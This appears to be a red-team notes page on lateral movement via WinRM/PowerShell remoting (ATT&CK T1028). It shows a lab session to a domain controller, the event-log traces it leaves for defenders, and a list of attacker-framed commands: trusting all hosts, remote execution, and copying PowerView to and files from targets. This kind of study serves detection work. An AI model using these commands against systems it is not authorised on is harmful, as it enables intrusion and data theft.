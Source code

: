 ```yaml
---
description: PowerShell remoting for lateral movement.
---
```


# T1028: WinRM for Lateral Movement

## Execution

Attacker establishing a PSRemoting session from a compromised system `10.0.0.2` to a domain controller `dc-mantvydas` at `10.0.0.6`:

{% code-tabs %}
{% code-tabs-item title="attacker@10.0.0.2" %}
```csharp
New-PSSession -ComputerName dc-mantvydas -Credential (Get-Credential)

  Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 Session1        dc-mantvydas    RemoteMachine   Opened        Microsoft.PowerShell     Available

PS C:\Users\mantvydas> Enter-PSSession 1
[dc-mantvydas]: PS C:\Users\spotless\Documents> calc.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

Note the process ancestry:

![](../../.gitbook/assets/wsmprovhost-calc.png)

![](../../.gitbook/assets/wsmprovhost-calc-sysmon.png)

On the host that initiated the connection, a `4648` logon attempt is logged, showing what process initiated it, the hostname where it connected to and which account was used:

![](../../.gitbook/assets/winrm-local-logon-events.png)

The below graphic shows that the logon events `4648` annd `4624` are being logged on both the system that initiated the connection \(`pc-mantvydas - 4648`\) and the system that it logged on to \(`dc-mantvydas - 4624`\):

![](../../.gitbook/assets/winrm-logons-both.png)

Additionally, `%SystemRoot%\System32\Winevt\Logs\Microsoft-Windows-WinRM%4Operational.evtx` on the host that initiated connection to the remote host, logs some interesting data for a task `WSMan Session initialize` :

```markup
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-WinRM" Guid="{A7975C8F-AC13-49F1-87DA-5A984A4AB417}" /> 
  <EventID>6</EventID> 
  <Version>0</Version> 
  <Level>4</Level> 
  <Task>3</Task> 
  <Opcode>1</Opcode> 
  <Keywords>0x4000000000000002</Keywords> 

  # connection iniation time
  <TimeCreated SystemTime="2018-07-25T21:13:36.511895800Z" /> 
  <EventRecordID>673</EventRecordID> 

  # a unique connection ID
  <Correlation ActivityID="{037F878B-8DF6-4F1A-BA51-432C3CDDCB47}" /> 

  # process ID that initiated the connection
  <Execution ProcessID="3172" ThreadID="2844" /> 
  <Channel>Microsoft-Windows-WinRM/Operational</Channel> 
  <Computer>PC-MANTVYDAS.offense.local</Computer> 
  <Security UserID="S-1-5-21-1731862936-2585581443-184968265-1001" /> 
  </System>
- <EventData>

  # remote host the connection was initiated to
  <Data Name="connection">dc-mantvydas/wsman?PSVersion=5.1.14409.1005</Data> 
  </EventData>
  </Event>
```

...same as above just in the actual screenshot:

![](../../.gitbook/assets/winrm-eventlogs.png)

![](../../.gitbook/assets/winrm-session-information.png)

Since we entered into a PS Shell on the remote system `(Enter-PSSession)` , there is another interesting log showing the establishment of a remote shell - note that the ShellID corresponds to the earlier observed `Correlation ActivityID`:

![](../../.gitbook/assets/winrm-shell.png)

## Additional Useful Commands

[Jules Adriaens](https://twitter.com/@Expl0itabl3) reached out to me and suggested to add the following useful commands, so here they are:

```csharp
# Enable PowerShell Remoting on the target (box needs to be compromised first)
Enable-PSRemoting -force

# Check if a given system is listening on WinRM port
Test-NetConnection <IP> -CommonTCPPort WINRM

# Trust all hosts:
Set-Item WSMan:\localhost\Client\TrustedHosts -Value * -Force

# Check what hosts are trusted
Get-Item WSMan:\localhost\Client\TrustedHosts

# Execute command on remote host
Invoke-Command <host> -Credential $cred -ScriptBlock {Hostname}

# Interactive session with explicit credentials
Enter-PSSession <host> -Credential <domain>\<user>

# Interactive session using Kerberos:
Enter-PSSession <host> -Authentication Kerberos

# Upload file to remote session
Copy-Item -Path C:\Temp\PowerView.ps1 -Destination C:\Temp\ -ToSession (Get-PSSession)

# Download file from remote session
Copy-Item -Path C:\Users\Administrator\Desktop\test.txt -Destination C:\Temp\ -FromSession (Get-PSSession)
```

## References

{% embed url="http://www.hurryupandwait.io/blog/a-look-under-the-hood-at-powershell-remoting-through-a-ruby-cross-plaform-lens" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1028" %}

